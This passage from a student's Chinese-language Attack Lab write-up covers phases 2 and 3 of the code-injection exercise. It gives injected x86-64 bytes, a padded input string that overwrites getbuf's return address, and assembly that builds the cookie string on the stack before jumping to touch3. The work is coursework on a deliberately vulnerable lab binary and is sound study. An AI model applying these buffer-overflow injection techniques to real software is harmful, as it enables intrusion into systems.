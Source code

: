 **注意**：指令`ret`背后的操作：把`%rsp`中的地址`pop`掉（即`%rsp += 8`），并跳转到这个地址。而`%rsp`中的地址被用`push`指令设置为`touch2()`的地址。

通过gcc汇编再objdump反汇编，得到这些操作的目标代码字节表示。

```assembly
phase2.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	68 ec 17 40 00       	push   $0x4017ec
   a:	c3                   	ret    
```

可执行代码不需要改变顺序，因为可执行代码从低地址向高地址执行，和攻击字符串存入栈的方向一致。

要想跳转到可执行代码，需要设置`返回地址`到exploit code的位置。我们把可执行代码放到`getbuf()`的栈帧中的某一个位置，然后用gdb在`getbuf()`函数内的某一处打断点，得到`%rsp`的地址，再根据具体可执行代码与栈顶位置的偏移量（这里exploit code就放在了栈顶位置）算出这个地址。注意，用gdb调试时也必须传入一个非空文件作为命令行参数，否则会产生Segmentation Fault。

![gdb](D:\学习\2024-2025 第1学期\计算机系统 赵明昊,钱卫宁\Lab\3.attacklab\imgs\gdb.jpg)

最终的输入字符串如下：

```plaintext
bf fa 97 b9 59 68 ec 17 /* <- exploit code */
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* pad */
78 dc 61 55 00 00 00 00	/* 返回后 跳转到exploit code的地址 */
```



### 3. Phase 3：Code Injection Attack

阅读实验文档4.3，Phase 3是要在ctarget中`test()`函数调用`getbuf()`结束后，要把`%rdi`寄存器的值设置为一个字符串的首地址，这个字符串包含 `cookie` 的16进制表示；具体来说，这个字符串是把`cookie`中的每一个字符（或字节）变为16进制，格式为一个不带 `0x` 前缀的8字节16进制代码，以`'\0'`（即00）结尾。

我们的exploit code所要做的就是，

- 把字符串存储在运行时栈中；
- 把字符串地址加载到`%rdi`中；
- 跳转到`touch3()`函数。

```assembly
# cookie：0x59b997fa
movq    $0x39623935, 0x30(%rsp)
movq    $0x61663739, 0x34(%rsp)
movb    $0x0, 0x38(%rsp)

leaq    0x30(%rsp), %rdi
push    $0x00000000004018fa
ret
```
